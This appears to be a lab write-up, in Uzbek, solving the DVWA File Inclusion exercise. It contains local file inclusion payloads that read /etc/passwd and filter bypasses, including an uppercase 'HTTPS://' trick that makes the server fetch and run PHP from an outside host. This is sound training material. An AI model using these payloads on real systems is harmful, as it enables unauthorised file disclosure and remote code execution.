



File Inclusion — web siteda foydalanuvchi kiritgan qiymat orqali serverdagi yoki tashqi faylni include() kabi funksiyalar yordamida yuklaydigan zaiflik.
Asosiy turlari:
LFI (Local File Inclusion) - serverning lokal fayllarini yuklash.
RFI (Remote File Inclusion) - tashqi serverdagi faylni yuklash orqali.

# Easy

File Inclusion zaifligini va Remote File Inclusion (RFI) ishlashi aniqlandi.
Zaif kod:
```$file = $_GET['page'];
include($file);
```
Bu kodda page hech qanday tekshiruvlarsiz serverga yuborildi.
## LFI - Local File Inclusion
Payload:
```?page=../../../../../../etc/passwd```
Natijada `/etc/passwd` fayl malumotlarini chiqardi.



## RFI - Remote File Inclusion
Test uchun .php kod yaratilldi, file http server orqali yuklandi.
Test.php code:
`<?php echo "RFI_TEST_SUCCESS"; ?>`
Payload:
`?page=http://192.168.1.6:4444/test.php`



# Medium

## LFI - Local File Inclusion
Mediumda `../, ..\, http:// va https:// ` bularni `str_replace()` orqali olib tashlagan.
Code:
```
// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\\" ), "", $file );
```
Bunda `../` bloklanganligi uchun to'g'ridan to'g'ri `/etc/passwd` bilan murojaat qilamiz.
Payload:
```http://127.0.0.1/DVWA/vulnerabilities/fi/?page=/etc/passwd```



## RFI - Remote File Inclusion
test uchun .php file yaratildi:
`<?php echo "RFI_TEST_SUCCESS"; ?>`
filter `http:// va https://` ni bloklagani uchun `HTTPS://` dan foydanaldi. server orqali `test.php` file yuklandi va bajarildi.
Payload:
```http://127.0.0.1/DVWA/vulnerabilities/fi/?page=HTTPS://192.168.1.6:4444/test.php```


# High

High levelda page parametriga ishlatilgan allowlist tekshiruvi borligi aniqlandi.
Code:
```$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}
```
Bu kod faqat file bilan boshlanadigan qiymatlar yoki `include.php` fayliga ruxsat beradi.
Payload `file3.php` bilan boshlanganligi uchun server qabul qildi.
Payload:
```http://127.0.0.1/DVWA/vulnerabilities/fi/?page=file3.php../../../../../../../../etc/passwd```


